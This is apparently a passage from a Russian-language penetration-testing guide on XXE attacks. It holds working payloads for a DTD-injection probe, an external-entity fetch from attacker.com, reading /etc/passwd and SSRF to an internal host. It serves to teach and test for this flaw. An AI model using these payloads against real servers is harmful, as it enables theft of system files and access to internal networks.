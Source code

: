 
# 3. Виды атак

## 3.1. При видимой xxe

#### 3.1.1. Проверка реакции на DTD-инъекции

Внедрение простой внутренней сущности:
```
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe "TEST"> ]>
<root>&xxe;</root>
```
- Если в ответе появляется TEST, DTD разрешен.

Попытка загрузки внешней сущности:
```
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://attacker.com/payload"> ]>
<root>&xxe;</root>
```
- Если сервер отправляет запрос к attacker.com, внешние сущности разрешены.

##### Использование XXE для извлечения файлов
```
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [
		<!ENTITY xxe SYSTEM "file:///etc/passwd">
	]>
	<stockCheck>
		<productId>&xxe;</productId>
	</stockCheck>
```

##### Использование XXE для SSRF-атак
```
	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
	<stockCheck>
		<foo>&xxe;</foo>
	</stockCheck>
```

#### 3.1.2. Проверка реакции на XSD-инъекции
XSD не поддерживает DTD напрямую, некоторые реализации XML-парсеров могут обрабатывать внешние сущности, если они включены. Это может привести к уязвимостям, аналогичным XXE.


Внедрение внешних сущностей (XXE)
```
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://attacker.com/payload"> ]>
<root>&xxe;</root>
```
- Если сервер отправляет запрос к `attacker.com`, это указывает на уязвимость.
